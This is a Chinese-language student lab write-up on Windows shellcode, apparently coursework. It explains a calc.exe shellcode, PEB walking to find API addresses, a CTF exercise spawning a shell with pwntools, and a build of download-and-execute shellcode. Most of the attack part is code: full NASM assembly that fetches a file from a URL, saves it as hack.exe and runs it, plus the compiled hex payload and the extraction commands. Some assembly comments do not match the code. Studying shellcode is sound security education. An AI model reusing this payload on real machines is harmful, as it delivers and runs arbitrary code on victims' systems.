



# shellcode

## 实验目的

+ 掌握shellcode的原理

## 实验先修知识（课堂笔记）

+ 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址
+ 那么跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。
+ 这段代码当然是需要攻击者来编写的，攻击者通过这段代码来实现攻击之后的控制等等功能。
+ 早起，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这要黑客就可以远程通过命令的方式控制目标计算机了。
+ 就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
+ 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。
+ 现在呢，shellcode的功能已经很多了，千奇百怪。但是总体的目的还是对远程的目标计算机进行控制。


## 实验步骤

+ 如下是一段`shellcode`代码

  ```c
  
  #include <windows.h>
  #include <stdio.h>
  
  char code[] = \
  "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
  "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
  "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
  "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
  "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
  "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
  "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
  "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
  "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
  "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
  "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
  "\x52\xff\xd0";
  
  int main(int argc, char** argv)
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```

+ 这个shellcode的功能是运行一个计算器程序。

+ 这个是白帽子黑客们在编写PoC时最常使用的一种方法。能证明系统被控制，因为如果能悄无声息的运行计算机程序，理论上来说就能运行任何程序，改一个参数的事。

+ shellcode的编写不同于我们之前学过的所有的程序开发。它有一些自己独门的技巧。

+ 今天我们先来详细解读其中的一个。上面一段就是可运行的shellcode了。

+ 然后下面的main函数，是吧这个code运行起来。

  ```c
  int main(int argc, char** argv)
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```

+ 这一段代码用到了一个较为高级的C语言语法，函数指针。定义了一个函数指针变量，func。这个函数指针的变量类型是 int(*)(),表示返回值是int，参数列表为空的一个函数。在main函数的第二行，把全局变量 code 赋值给 func。并强制类型转换为 int(*)() 类型的函数指针。这样 func就有值了。就可以被调用了，由于func所指向的地址，就是code的地址，所有调用func的时候，运行的就是 code里面的那一堆二进制代码。

+ 现在VS中建一个空工程，把###########后整个C语言部分复制到VS中。然后编译，运行。

+ 不出意外的话，会遇到一个错误。

  

+ 这个错误，表示你当前访问了一个未分配的内存地址。或者，所访问的内存地址的保护属性冲突。比如如果内存的保护属性是 readonly，但是你写入了，那么也会引起这个访问异常错误。

+ 下断点运行时发现是在运行 (int)(*func)() 时出错的。这一行是干什么呢？是调用 func执行，而现在func是指向code的，也就是func的值是code的内存地址。因为它是全局变量，在程序运行起来后，就存在内存中，是进程的初始化过程就完成了内存分配，并由进程初始化程序从可执行文件中直接载入内存的。全局变量，肯定是有效地址，是可以访问的。由于code是全局变量，是数据，通常情况下，会给数据设置可读和可写的内存保护属性，但是一般不会给执行属性。但是我们要去执行它，所以可能引发了异常。

+ 我们再来验证一下。调试窗口 右键转到反汇编。现在是 停留在 call func这里，F11单步步入执行。现在到达这里，再F11。异常出现了。

  

+ 这里`0x000AA000 ` 就是code的第一个字节的位置。

+ 怎么修改这个错误呢？修改内存保护属性。怎么修改呢？VirtualProtect,改一下代码如下

  ```c
  int main(int argc, char** argv)
  {
   int (*func)();
   DWORD dwOldProtect;
   func = (int(*)()) code;
   VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
   (int)(*func)();
  }
  ```

+ 运行上述代码，出现如下结果

  

+ 解释一下代码，VirtualProtect 函数会把第一个参数，这里是 func，所指向的内存地址的 第二个参数，这里是 sizeof(code)，这段内存区域所在分页的内存属性修改为第三个参数的属性。PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行。然后 通过第四个参数 dwOldProtect 在修改之前的内存保护属性。

+ 运行了计算器程序，说明我们的shellcode运行成功了。

+ 解读这段shellcode代码呢。还是用我们的反汇编利器。这里下个断点，运行，断点命中后转到反汇编

  

+ F11单步执行，发现和源代码中的汇编部分，是一样的。

  

+ 其实，我们这段code，就是通过前面的汇编代码，编译以后直接从汇编编译以后，从可执行文件中 dump出来的。`nasm 汇编器 编译为 .o文件`

  

+ 如果我们用C语言编写一个运行计算器的程序，其实很简单。我们只需要调用一下WinExec函数，或者CreateProcess函数。如果用汇编来写，也就是几条指令的事。我们学过逆向工程的都知道 几个参数 push 入栈以后，call函数地址就可以了。就能调用函数地址。

+ 那为什么我们这段代码写的这么复杂呢？一百行左右了吧

+ 如果我们是在C语言中编写调用WinExec函数，那个call之后的WinExec函数的地址，是编译器帮我们在可执行程序的导入表中导入了。在进程初始化的过程中，系统会帮我们计算好WinExec函数的地址，然后把函数地址放在导入表中指定的位置。

+ 要意识到，我们最终是要把这代code嵌入到溢出攻击的数据中。被攻击的目标对象会有动态链接的过程吗？没有，也就是code这段代码，如果要call WinExec，那么WinExec函数在哪？没人告诉code。那就只好自己干。也就是说，shellcode，其实干了一个进程初始化的过程中，操作系统在干的事情——API函数的动态链接。也就是找到需要调用的API函数的地址。那这个问题简单啊，我们不是有GetProcAddress函数吗，这个函数就可以获得API函数的地址啊。

+ 问题又来了，GetProcAddress函数，也是一个API啊.GetProcAddress函数的地址也不知道呢，如果能调用GetProcAddress函数，那WinExec也能调了。所以任何 API地址都没有。shellcode进入到了一个完全陌生的环境。

+ 所以早期的黑客们，想了很多办法，能不能比较原始的办法，能够获得API地址。其实操作系统，也有一个加载的过程。黑客们逆向分析了Windows系统的内部代码，分析了Windows系统内部管理进程初始化相关的数据结构。发现有一个链表，管理了所有的已经加载的dll文件。

+ 这个链表，就是我们这个代码里InitOrderModuleList ,这个InitOrderModuleList 在一个称为 LDR 的数据结构里。这个LDR的数据结构，又在 PEB`进程环境块`这个数据结构里

+ 而PEB数据结构，在每个进程中，是一个固定的位置，是一个绝对的常量地址。这个地址就是fs:ebx+0x30,所以地址就可以不依赖于任何API或者其他依赖，直接用汇编代码就能访问到。从这里我们能一层层找到dll的基地址,然后再从dll的基地址，通过PE文件的数据结构，文件头，找到dll的导出表。然后再从导出表中的数据结构中，通过函数名称的比较，得到已经在内存中的函数的地址。

+ 所以代码中的循环，findFunctionAddr 的递归函数，和searchLoop。就是在遍历dll的导出表。代码中大量使用到了硬编码的偏移地址，比如就是因为上面这些说到的系统的数据结构，都是固定的结构，在每个系统中都是一样的，所以可以固定。

  

+ 通过系统中若干数据结构这种原始的访问方式，可以找到API函数。

+ 下面一个问题。shellcode中还用到了字符串。至少函数地址的名称是需要的。还有调用WinExec的参数 calc.exe，如果我们在C语言里编程，编译器会把可执行程序的代码和字符串，放在不同的地址。代码 机器指令在 text段中， 字符串在data段中。地址相差很远。而我们objdump，只取了代码段。没有取数据段，那要shellcode就太大了，而且中间可能会有很多的填充字符。而且数据地址很有可能是绝对地址。code一dump出来，放在了其他环境中执行，那么地址就变了。所以字符串，code也是找不到的。

+ 一个程序，用到字符串，可以看看字符串的地址和代码的地址，差很远。

+ 那唯一的办法，用一种什么方式，把字符串硬编码在shellcode中。让字符串，变为代码的一部分，内嵌在机器指令中。

+ 看这里，这儿636c6163和6578652e是 calc.exe的big ending 反写，压入栈以后，就形成了字符串。这样就把字符串嵌入机器指令了，作为机器指令的操作数。

  

+ 好了，有了以上基础知识，然后再给一些参考资料,能理解shellcode为什么要这么编写了。

## 课后实验

### shellcode学习

+ 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。（选择了其中一个详解）

  + 首先我们把演示程序`~/Openctf 2016-tyro_shellcode1/tyro_shellcode1`复制到32位的docker环境中并开启调试器进行调试分析。需要注意的是，由于程序带了一个很简单的反调试，在调试过程中可能会弹出如下窗口：

    

    

  + 此时点OK，在弹出的Exception handling窗口中选择No（discard）丢弃掉SIGALRM,从F5的结果上看程序使用read函数读取的输入甚至都不在栈上，而是在一片使用mmap分配出来的内存空间上。

    
    
    
    
  + 显然，我们这里随便输入的“12345678”有点问题，继续执行的话会出错。不过，当程序会把我们的输入当成指令执行，shellcode就有用武之地了。
    首先我们需要去找一个shellcode，我们希望shellcode可以打开一个shell以便于远程控制只对我们暴露了一个10001端口的docker环境，而且shellcode的大小不能超过传递给read函数的参数，即0x20=32.我们通过著名的[http://shell-storm.org](https://link.zhihu.com/?target=http%3A//shell-storm.org)的shellcode数据库`shell-storm.org/shellcode/找到了一段符合条件的shellcode`
    
  + 21个字节的执行sh的shellcode，点开一看里面还有代码和介绍。我们先不管这些介绍，把shellcode取出来
    
    
    
    
    
  + 使用pwntools库把shellcode作为输入传递给程序，尝试使用io.interactive()与程序进行交互，发现可以执行shell命令。
    
    
    
    
    
  + 当然，shell-storm上还有可以执行其他功能如关机，进程炸弹，读取/etc/passwd等的shellcode.
    


### 文件下载执行

+ 修改示例代码的[shellcode](https://www.exploit-db.com/exploits/48355)，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA

  + 找到kernel32.dll的基址

    ```asm
    ; Find kernel32.dll base address
     xor ebx, ebx
     mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
     mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
     mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
     mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
     mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
     mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
     mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll
    ```

    

  + kernel32.dll导出表的地址

    ```asm
    ; Find the address of the Export Table within kernel32.dll
     mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader
     add ebx, eax            ; EBX = &NewEXEHeader
     mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable
     add ebx, eax            ; EBX = &ExportTable
     ; Find the address of the Name Pointer Table within kernel32.dll
     mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable
     add edi, eax            ; EDI = &NamePointerTable
     mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame
    
    ; Find the address of the Ordinal Table
     mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable
     add ecx, eax            ; ECX = &OrdinalTable
     mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame
    
    ; Find the address of the Address Table
     mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable
     add edx, eax            ; EDX = &AddressTable
     mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
    
    ; Find Number of Functions within the Export Table of kernel32.dll
     mov edx, [ebx+0x14]     ; EDX = Number of Functions
     mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame
    ```

  + 找到函数的入口点[参考](https://www.exploit-db.com/exploits/48355)

    ```asm
    jmp short functions
    
    findFunctionAddr:
    ; Initialize the Counter to prevent infinite loop
     xor eax, eax            ; EAX = Counter = 0
     mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
    ; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
    searchLoop:
     mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
     mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
     xor ecx, ecx            ; ECX = 0x00000000
     cld                     ; clear direction flag - Process strings from left to right
     mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
     add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
     add cx, 0xF             ; ECX = len("GetProcAddress,0x00") = 15 = 14 char + 1 Null
     repe cmpsb              ; compare first 8 bytes of [&NameString] to "GetProcAddress,0x00"
     jz found                ; If string at [&NameString] == "GetProcAddress,0x00", then end loop
     inc eax                 ; else Counter ++
     cmp eax, edx            ; Does EAX == Number of Functions?
     jb searchLoop           ;   If EAX != Number of Functions, then restart the loop
    
    found:
    ; Find the address of WinExec by using the last value of the Counter
     mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
     mov edx, [ebp-0x10]     ; EDX = &AddressTable
     mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber      = [&OrdinalTable + (Counter*2)]
     mov eax, [edx + eax*4]  ; EAX = RVA GetProcAddress = [&AddressTable + ordinalNumber]
     add eax, [ebp-0x4]      ; EAX = &GetProcAddress    = RVA GetProcAddress + &kernel32.dll
     ret
    
    functions:
    # Push string "GetProcAddress",0x00 onto the stack
     xor eax, eax            ; clear eax register
     mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
     push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"      
     push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
     push 0x41636f72         ; Acor : 41636f72
     push 0x50746547         ; PteG : 50746547
     mov [ebp-0x18], esp      ; save PTR to string at bottom of stack (ebp)
     call findFunctionAddr   ; After Return EAX will = &GetProcAddress
    # EAX = &GetProcAddress
     mov [ebp-0x1C], eax      ; save &GetProcAddress
    
    ; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
     xor edx, edx            ; EDX = 0x00000000
     push edx                ; null terminator for LoadLibraryA string
     push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
     push 0x7262694c         ; rbiL : 7262694c
     push 0x64616f4c         ; daoL : 64616f4c
     push esp                ; $hModule    -- push the address of the start of the string onto the stack
     push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
     mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
     call eax                ; Call the GetProcAddress Function.
     mov [ebp-0x20], eax     ; save Address of LoadLibraryA 
    
    
    ```

  + 通过刚刚得到的LoadLibraryA函数入口，加载urlmon.dll

    ```asm
    ; Call LoadLibraryA(PTR "urlmon")
    ;   push "msvcrt",0x00 to the stack and save pointer
     xor eax, eax            ; clear eax
     mov ax, 0x7472          ; tr : 7472
     push eax
     push 0x6376736D         ; cvsm : 6376736D
     push esp                ; push the pointer to the string
     mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
     call ebx                ; call the LoadLibraryA Function to load urlmon.dll
     mov [ebp-0x24], eax     ; save Address of urlmon.dll
    ```

  + 通过`urlmon.dll`获得`URLDownloadToFileA`的入口地址（套路一致）

    ```asm
    ; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA")
    xor edx, edx
    mov dx, 0x4165          ; Ae
    push edx
    push 0x6C69466F         ; liFo
    push 0x5464616F         ; Tdao
    push 0x6C6E776F         ; lnwo
    push 0x444c5255         ; DLRU
    push esp    		; push pointer to string to stack for 'URLDownloadToFileA'
    push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
    mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
    call eax                ; GetProcAddress
    ;   EAX = WSAStartup Address
    mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
    ```

  + 使用该函数进行[下载文件](https://www.exploit-db.com/shellcodes/13533)

    ```asm
    ;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
    download:
    pop eax
    xor ecx, ecx
    push ecx
    ; URL: https://www.python.org/ftp/python/3.8.3/python-3.8.3.exe
    push 0x6578652E         ; exe.
    push 0x74646573         ; tdes
    push 0x6F6F672F         ; oog/
    push 0x33312E36         ; 31.6
    push 0x352E3836         ; 5.86
    push 0x312E3239         ; 1.29
    push 0x312F2F3A         ; 1//:
    push 0x70747468         ; ptth
    push esp
    pop ecx                 ; save the URL string
    xor ebx, ebx
    push ebx
    ; save as hack.exe
    push 0x6578652E         ; exe.
    push 0x6B636168         ; kcah
    push esp
    pop ebx                 ; save the downloaded filename string
    xor edx, edx
    push edx
    push edx
    push ebx
    push ecx
    push edx
    mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
    call eax
    pop ecx
    add esp, 44
    xor edx, edx
    cmp eax, edx
    push ecx
    jnz download            ; if it fails to download , retry contineusly
    pop edx
    ```

  + 找到`WinExec`函数的入口地址，并调用该函数运行下载的文件，最后退出程序

    ```asm
     Create string 'WinExec\x00' on the stack and save its address to the stack-frame
    mov edx, 0x63657878     \
    shr edx, 8              ; Shifts edx register to the right 8 bits
    push edx                ; "\x00,cex"
    push 0x456E6957         ; EniW : 456E6957
    mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
    call findFunctionAddr   ; After Return EAX will = &WinExec
    
    
    xor ecx, ecx          ; clear eax register
    push ecx              ; string terminator 0x00 for "hack.exe" string
    push 0x6578652e       ; exe. : 6578652e
    push 0x6B636168       ; kcah : 6B636168
    mov ebx, esp          ; save pointer to "hack.exe" string in eax
    inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
    push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
    push ebx              ; lpcmdLine - push string address stack # 1st argument
    call eax              ; Call the WinExec Function
    
    ; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
     xor ecx, ecx          ; clear eax register
     mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
     shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
     push ecx                ;  sse : 00737365
     push 0x636F7250         ; corP : 636F7250
     push 0x74697845         ; tixE : 74697845
     mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
     call findFunctionAddr   ; After Return EAX will = &ExitProcess
    
    ; Call ExitProcess(ExitCode)
     xor edx, edx
     push edx                ; ExitCode = 0
     call eax                ; ExitProcess(ExitCode)
    ```

  + 将该反汇编文件通过`nasm`工具进行编译并用`objdump`工具变为可执行代码

    ```bash
    nasm -f win32 test.asm -o test.o
    for i in $(objdump -D test.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
    ```

    

  + 代码如下

    ```shell
    \x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\x31\xc0\x66\xb8\x73\x73\x50\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x89\x65\x18\xe8\xb0\xff\xff\xff\x89\x45\xe4\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\xff\x75\xfc\x8b\x45\xe4\xff\xd0\x89\x45\xe0\x31\xc0\x66\xb8\x6f\x6e\x50\x68\x75\x72\x6c\x6d\x54\x8b\x5d\xe0\xff\xd3\x89\x45\xdc\x31\xd2\x66\xba\x65\x41\x52\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\xff\x75\xdc\x8b\x45\xe4\xff\xd0\x89\x45\xd8\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x73\x65\x64\x74\x68\x2f\x67\x6f\x6f\x68\x36\x2e\x31\x33\x68\x36\x38\x2e\x35\x68\x39\x32\x2e\x31\x68\x3a\x2f\x2f\x31\x68\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x54\x5b\x31\xd2\x52\x52\x53\x51\x52\x8b\x45\xd8\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xac\x5a\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xe8\xfe\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\xb7\xfe\xff\xff\x31\xd2\x52\xff\xd0
    ```

  + 代码执行成功以后，出现如下结果，由于下载的文件并不是能立马执行的exe，无法正常执行，这可以理解

    

  + 该代码的**整体逻辑**是： 

    2. 利用fs:[0x30]这个地址，得到PEB头部的地址。然后读取PEB中的PLDR_DATA指针，再找LDR_DATA结构中的 InInitializationOrderModuleList的Flink，从而得到指向kernel32.dll的LDR_MODULE结构的地址。通过读取LDR_MODULE结构中的BaseAddress，从而得到了kernel32.dll在进程空间中的基址。
    3. 通过读取kernel32.dll在进程空间中的映像的PE文件结构，找到其输出表，通过循环比对，在AddressOfNames数组中找到指向GetProcAddress这个函数名的指针位置，定位其索引号位置。 
    4. 通过索引查AddressOfFunctions数组，找到GetProcAddress的函数入口偏移量，加上kernel32.dll的基址，得到了GetProcAddress函数的确切入口。 
    5. 通过调用GetProcAddress函数，配合kernel32.dll的基址这个句柄，找到Winexec、ExitProcess、LoadLibraryA这几个由kernel32.dll导出的函数的入口点，并将之依次保存到“数据区”开头 以备调用。 
    6. 通过刚刚得到的LoadLibraryA函数入口，加载urlmon.dll，用GetProcAddress得到重要的函数URLDownloadToFileA的入口点，同样保存备用。 
    8. 调用URLDownloadToFileA，下载文件到本机，并调用Winexec运行。 
    9. 完成以上所有任务，调用ExitProcess，退出进程。

## 实验参考资料

+ [shellcode](https://www.exploit-db.com/shellcodes)
+ [Windows/x86 - Null-Free WinExec Calc.exe Shellcode (195 bytes)](https://www.exploit-db.com/shellcodes/48116)
+ [peb](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb)
+ [pev学习](https://www.cnblogs.com/binlmmhc/p/6501545.html)
+ [PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)
+ [Process_Environment_Block](https://en.wikipedia.org/wiki/Process_Environment_Block)
+ [Windows/x64 - URLDownloadToFileA(http://localhost/trojan.exe) + Execute Shellcode (218+ bytes)](https://www.exploit-db.com/shellcodes/13533)
+ [Windows/x86 - URLDownloadToFileA(http://192.168.86.130/sample.exe) + SetFileAttributesA(pyld.exe) + WinExec() + ExitProcess() Shellcode (394 bytes)](https://www.exploit-db.com/shellcodes/40094)
+ [indows/x86 - MSVCRT System + Dynamic Null-free + Add RDP Admin + Disable Firewall + Enable RDP Shellcode (644 Bytes)](https://www.exploit-db.com/exploits/48355)